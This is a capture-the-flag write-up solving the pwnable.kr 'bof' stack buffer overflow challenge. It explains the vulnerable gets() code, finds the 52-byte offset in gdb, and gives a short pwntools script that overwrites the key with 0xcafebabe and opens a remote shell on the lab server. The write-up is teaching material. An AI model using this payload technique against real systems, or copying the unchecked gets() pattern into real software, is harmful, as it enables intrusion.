# Pwnable.kr - Toddler's Battle - [bof]


<!--more-->

## Description

This post will focus on an easy pwn challenge *bof* from Toddler's Bottle series of pwnable.kr.

Starting off we have the following description.



From the description, we can guess there's a buffer overflow vulnerability here which we'll be exploiting.


In information security and programming, a buffer overflow, or buffer overrun, is an anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.


Source: https://en.wikipedia.org/wiki/Buffer_overflow

After downloading both attached files looking at the binary.



Running the binary, it first prints ```overflow me: ```, then we can enter some input and then it returns ```Nah..```.



If we provide a longer input while running the binary it smashes the stack.



Looking at the C code.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

There are two functions ```main``` and ```func```. In the ```main``` function it is calling the ```func``` with the value ```0xdeadbeef```.

Let's dive into the ```func``` function and understand what's going on.

It first defines a variable ```overflowme``` with the buffer size of ```32``` then it prints ```overflow me: ``` which we saw while running the binary. And if we provide an input more than ```32``` bytes then it smashes the stack.

After that it takes our input and saves it in the ```overflowme``` variable using the ```gets``` function.


The gets() function is unsafe because it does not perform bounds checking on the size of its input. An attacker can easily send arbitrarily-sized input to gets() and overflow the destination buffer.


Source: https://cwe.mitre.org/data/definitions/242.html

With this we have a vague idea of how we're going to exploit this vulnerability.

After this it compares the value of the parameter ```key``` with ```0xcafebabe``` and if it becomes true it spawns a shell.

If we run the program normally this condition will never be true because the argument ```0xdeadbeef``` is provided to the ```func``` in the ```main``` function.

In order to make this work, we need to make the buffer overflow and insert the value ```0xcafebabe``` to the ```key``` parameter.

## Exploitation

Let's fire up ```gdb```.



Add a break point at ```main``` and run the program.



Now disassemble the ```func```.



We can see the key ```0xcafebabe``` with ```cmpl``` instruction at ```0x56555654```.

Let's set a breakpoint here as well.



Continue the execution and enter an input within the buffer limit.



Now look at the stack.



We can see the ```0xdeadbeef``` in front of ```0xffffd060```. Before that our input starts at the last row in front of ```0xffffd020```.

So since each block is of ```4``` bytes and we have ```13``` blocks before ```0xdeadbeef```, we need to provide exactly ```13 * 4 = 52``` bytes of input and then our key ```0xcafebabe``` in order to successfully spawn the shell.

The following payload will break the stack and overwrite the desired key and spawn the shell.



We can also write a small script to spawn an interactive shell using python.

```python
from pwn import *

payload = 'A'*52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr', 9000)
shell.send(payload)
shell.interactive()
```

Interactive shell.



**Thanks for reading!**
